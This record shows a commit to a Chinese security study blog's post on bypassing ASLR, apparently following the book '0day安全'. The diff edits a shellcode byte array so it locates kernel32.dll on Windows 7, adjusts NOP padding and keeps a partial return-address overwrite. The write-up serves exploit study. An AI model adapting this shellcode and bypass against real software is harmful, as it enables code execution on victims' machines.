

Before and after one commit to tearorca/tearorca.github.io, a Jekyll site: the page built from _posts/2019-4-1-《0day安全》ASLR保护.md, in a window 1280 px wide and 1400 px high, scrolled down 5829 px. Shown: the part 207-873 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2019-4-1-《0day安全》ASLR保护.md

```diff
--- a/_posts/2019-4-1-《0day安全》ASLR保护.md
+++ b/_posts/2019-4-1-《0day安全》ASLR保护.md
@@ -161,7 +161,9 @@ ASLR只是随机化了映像的加载基址，而没有对指令序列进行随
 	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
 	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
 	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
-	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
+	"\x49\x1C\x8B\x09"
+	"\x8b\x09"
+	"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
 	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
 	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
 	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
@@ -174,10 +176,12 @@ ASLR只是随机化了映像的加载基址，而没有对指令序列进行随
 	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
 	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
 	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
-	"\x90\x90\x90\x90"
+	"\x90\x90"
 	"\x1c\x14"
 	;
 
+这里的新加了\x8b\x09,因为Windows 7下PEB_LDR_DATA指向加载模块列表中第二个位置被KERNELBASE.dll占据，kernel32.dll的位置由第二个变为了第三个。
+![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1o7vvxnzmj20ji0fnmxt.jpg)
 
 ## **利用Heap spray技术定位内存地址**
 
```
